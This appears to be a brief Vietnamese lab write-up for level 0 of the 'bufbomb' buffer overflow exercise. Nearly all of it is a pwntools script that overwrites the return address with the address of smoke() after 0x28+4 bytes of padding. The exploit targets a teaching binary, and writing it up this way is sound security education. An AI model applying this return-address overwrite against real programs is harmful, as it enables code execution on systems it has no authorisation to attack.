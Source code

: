 # Level 0
## Task
Buffer overflow để thực thi hàm `smoke()`.

## Solution
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'
io = process(['./bufbomb', '-u', '09821978'])

e = ELF('./bufbomb')
exploit_payload = b'A'*(0x28 + 4)
exploit_payload += p32(e.symbols['smoke'])

io.sendline(exploit_payload)
io.interactive()
```
